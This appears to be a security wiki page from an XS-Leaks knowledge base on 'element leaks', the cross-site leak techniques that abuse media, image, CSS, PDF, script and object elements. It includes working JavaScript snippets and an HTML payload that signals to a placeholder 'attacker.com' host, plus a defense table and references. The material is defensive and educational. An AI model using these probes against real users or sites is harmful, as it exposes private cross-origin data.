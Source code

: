 +++
title = "Element leaks"
description = ""
category = "Attack"
abuse = [
    "HTMLElement",
]
defenses = [
    "SameSite Cookies"
]
menu = "main"
weight = 2
+++

Some HTML Elements might be used to leak a portion of data to a cross-origin page.
For example, the below media resources can leak information about its size, duration, type. 

- [HTMLMediaElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLMediaElement) leaks the media `duration` and the `buffered` times.
- [HTMLVideoElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLVideoElement) leaks the `videoHeight` and `videoWidth` 
  some browsers may also have `webkitVideoDecodedByteCount`, `webkitAudioDecodedByteCount` and `webkitDecodedFrameCount`
- [getVideoPlaybackQuality()](https://developer.mozilla.org/en-US/docs/Web/API/VideoPlaybackQuality) leaks the `totalVideoFrames`.
- [HTMLImageElement](https://developer.mozilla.org/en-US/docs/Web/API/HTMLImageElement) leaks the `height` and `width` but if the image is invalid they will be 0 
  and [`image.decode()`](https://developer.mozilla.org/en-US/docs/Web/API/HTMLImageElement/decode) will get rejected.

It's possible to differentiate between media types via unique property for a given media type. For example, it is `videoWidth` for a `<video>`, or `duration` for an `<audio>`. The below snippet shows an example code that returns the type of a resource. 
```javascript
async function getType(url) {
    // Detect if resource is audio or video
    let media = document.createElement("video");
    media.src = url;
    await new Promise(r=>setTimeout(r,50));
    if (media.videoWidth) {
    return "video";
    } else if (media.duration) {
    return "audio"
    }
    // Detect if resource is an image
    let image = new Image();
    image.src = url;
    await new Promise(r=>setTimeout(r,50));
    if (image.width) return "image";
}
```

## Abusing CORB
[CORB]({{< ref "/docs/attacks/browser-features/corb.md" >}}) is a feature of Chrome that makes responses empty if the wrong content type is used.
This means that if the type is wrong it’s not cached.
An `ifCached` function can be found in [Cache Probing]({{< ref "/docs/attacks/cache-probing.md" >}}) article.
```javascript
async function isType(url, type = "script") {
  let error = false;
  // Purge url
  await ifCached(url, true);
  // Attempt to load resource
  let e = document.createElement(type);
  e.onerror = () => error = true;
  e.src = url;
  document.head.appendChild(e);
  // Wait for it to be cached if its allowed by CORB
  await new Promise(resolve => setTimeout(resolve, 500));
  // Cleanup
  document.head.removeChild(e);
  // Fix for "images" that get blocked differently.
  if (error) return false
  return ifCached(url);
}
```

## Abusing getComputedStyle
[getComputedStyle](https://developer.mozilla.org/en-US/docs/Web/API/Window/getComputedStyle) can be used to read an embedded to the current page CSS style sheets. Including those loaded from different origins. 
This function just checks if there has been a style applied to the body.
```javascript
async function isCSS(url) {
    let link = document.createElement('link');
    link.rel = 'stylesheet';
    link.type = 'text/css';
    link.href = url;
    let style1 = JSON.stringify(getComputedStyle(document.body));
    document.head.appendChild(link);
    await new Promise(resolve => setTimeout(resolve, 500));
    let style2 = JSON.stringify(getComputedStyle(document.body));
    document.head.removeChild(link);
    return (style1 !== style2);
}
```
## PDF
There are [Open URL Parameters](https://bugs.chromium.org/p/chromium/issues/detail?id=64309#c113) that allow some control over the content such as `zoom`, `view`, `page`, `toolbar`, `nameddest` Firefox has also implemented `search`.
For chrome, a PDF can be detected with [frame counting]({{< ref "/docs/attacks/frame-counting.md" >}}) because an `embed` is used internally.
This can be confirmed by waiting for a message from the PDF scripting API. [^pdf-api]
```javascript
async function isPDF(URL) {
    let w = open(URL);
    await new Promise(resolve => setTimeout(resolve, 1500));
    if (window.length !== 1) return false;
    let pdf;
    window.addEventListener("message", e => {
        if (e.origin === 'chrome-extension://mhjfbmdgcfjbbpaeojofohoefgiehjai') pdf = true;
    });
    w[0].postMessage("initialize", "*");
    await new Promise(resolve => setTimeout(resolve, 5));
    return pdf;
}
```
It’s also possible to abuse this API to send actions like `getSelectedText`, `selectAll`, `print`, `getThumbnail`.
However, responses are limited to `documentLoaded` and `passwordPrompted` when cross-origin.
This could be abused to read PDF content if the attacker has access to the messages of that origin.
```javascript
let w = open(URL);
w[0].postMessage({type: 'print'}, "*");
```
{{< hint info >}}
The above techniques don’t seem to work in Firefox.
{{< /hint >}}

## Script tag
When a cross-origin script is included on a page it's not directly possible to read its contents. However, if a script uses any built-in functions, it's possible to overwrite them and read their arguments which might leak valuable information [^script-leaks].
```javascript
let hook = window.Array.prototype.push;
window.Array.prototype.push = function() {
    console.log(this);
    return hook.apply(this, arguments);
}
```

## When Javascript can’t be used
If JavaScript is disabled it's still possible to leak some information about cross-origin resources. For example, an `<object>` can be used to detect whether a resource responds with *Error Code*. What happens is that if a resource `//example.org/resource` returns an error in `<object data=//example.org/resource>fallback</object>` then `fallback` will be rendered [^fallback] [^leaky-images]. It's possible to inject another `<object>` inside that will leak the information to an outside server, or detect it with CSS [^xsleaks-nojs].
The below code embeds `//example.org/404` and if it responds with *Error* then a request to `//attacker.com/?error` is also made as a fallback.
```html
<object data="//example.com/404">
  <object data="//attacker.com/?error"></object>
</object>
```

## Defense

| Attack Alternative | [SameSite Cookies (Lax)]({{< ref "/docs/defenses/opt-in/same-site-cookies.md" >}}) | [COOP]({{< ref "/docs/defenses/opt-in/coop.md" >}}) | [Framing Protections]({{< ref "/docs/defenses/opt-in/xfo.md" >}}) |                                          [Isolation Policies]({{< ref "/docs/defenses/isolation-policies" >}})                                           |
| :----------------: | :--------------------------------------------------------------------------------: | :-------------------------------------------------: | :---------------------------------------------------------------: | :------------------------------------------------------------------------------------------------------------------------------------------------------: |
|     Type leaks     |                                         ✔️                                         |                         ❌                          |                                ❌                                 | [RIP]({{< ref "/docs/defenses/isolation-policies/resource-isolation" >}}) 🔗 [NIP]({{< ref "/docs/defenses/isolation-policies/navigation-isolation" >}}) |
## References
[^script-leaks]: The Unexpected Dangers of Dynamic JavaScript. [link](https://www.usenix.org/system/files/conference/usenixsecurity15/sec15-paper-lekies.pdf)   
[^fallback]: HTML Standard, [3.2.5.2.6 Embedded content], [link](https://html.spec.whatwg.org/multipage/dom.html#fallback-content)  
[^leaky-images]: Leaky Images: Targeted Privacy Attacks in the Web, [3.4 Linking User Identities], [link](https://www.usenix.org/system/files/sec19fall_staicu_prepub.pdf)  
[^xsleaks-nojs]: [https://twitter.com/terjanq/status/1180477124861407234](https://twitter.com/terjanq/status/1180477124861407234)  
[^pdf-api]: pdf_scripting_api.js, [link](https://source.chromium.org/chromium/chromium/src/+/main:chrome/browser/resources/pdf/pdf_scripting_api.js)  
